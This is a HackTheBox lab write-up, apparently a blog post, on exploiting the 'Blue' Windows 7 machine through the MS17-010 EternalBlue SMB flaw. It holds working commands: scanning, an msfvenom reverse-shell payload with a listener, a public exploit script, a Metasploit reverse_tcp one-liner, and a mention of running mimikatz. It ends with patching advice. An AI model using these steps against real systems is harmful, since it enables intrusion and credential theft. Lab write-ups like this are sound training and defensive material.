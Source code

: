 ```yaml
---
title: Blue Writeup
date: 2021-12-29
categories: [Writeup, HackTheBox]
tags: hackthebox OSCP WriteUp Windows Windows7 eternalblue MS17-010 TJNULLsList
image:
  src: /assets/Images-02-Blue/Blue-infocard.png
  width: 497px   # in pixels
  height: 317px   # in pixels
  alt: Blue
---
```

> In this writeup I have pwned Legacy from hackthebox with Eternal blue exploit. Using manual and metasploit exploit.


### Enumeration
#### rustscan
```bash
rustscan --accessible -a 10.129.179.6 -- -Pn -p-
```
![](/assets/Images-02-Blue/2021-12-29-20-24-16.png)
_rustscan results_

#### nmap
```bash
nmap -T4 -Pn -A -p 135,139,445,49152,49153,49154,49155,49156,49157 10.129.179.6
```
![](/assets/Images-02-Blue/2021-12-29-20-30-32.png)
_nmap results_

```bash
nmap -Pn -A --script=smb-vuln* -p 139,445 10.129.179.6 | tee nmap-vulns.log
```
![](/assets/Images-02-Blue/2021-12-29-20-40-51.png)
_nmap vulnerablity scan results_

Target running 
- **OS** : Windows 7 Professional 7601 Service Pack 1
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143) : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient
```bash
smbclient -q -NL 10.129.179.6 # Shares List

smbclient -N \\\\10.129.179.6\\Users # readable
```
- `smbclient` gave a list of shares. Only share `Users` is readable. None of them are writeable.
- Admin shares are not accessible.
![](/assets/Images-02-Blue/2021-12-29-20-50-01.png)
_smbclient enumeration_

---

### Exploitation
#### MS17-010
For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.179.6
```

> From this repository `checker.py` script uses null authentication to check vulnerability. Directly running it will fail the check in this case. 'guest' authentication is used in nmap / smbclient and shares were accessible.

After changing username on line 14 of `checker.py` it will give named pipes and confirm target is vulnerable to eternalblue.

![](/assets/Images-02-Blue/2021-12-29-21-41-46.png)
_checker.py update and check_

Update username on line 37 of `send_and_execute.py` so exploit can work.

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```
![](/assets/Images-02-Blue/2021-12-29-22-06-46.png)
_updating send-and-execute.py and msfvenom_

And run the exploit after setting up ncat listener.

```bash
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.179.6 eternalblue.exe
```
**`And finally we get a shell with highest privileges.`**
![](/assets/Images-02-Blue/2021-12-29-22-14-52.png)
_system shell_

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.179.6; run;"
```
![](/assets/Images-02-Blue/2021-12-29-23-06-14.png)
_meterpreter shell_

---

### Post Exploitation
This system was compromised with highest privilege.
Transferred and executed `mimikatz`.
No hashes were saved in system.

![](/assets/Images-02-Blue/2021-12-29-22-58-41.png)
_hashdump attempt / mimikatz_

---

### Recommendation

SMB was enabled on outdated un-supported Windows 7 and SMB message signing was disabled. 

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

SMB service was using `guest` authentication. 
We modified vulnerability scanner and exploit with `guest` as credentials to work.

---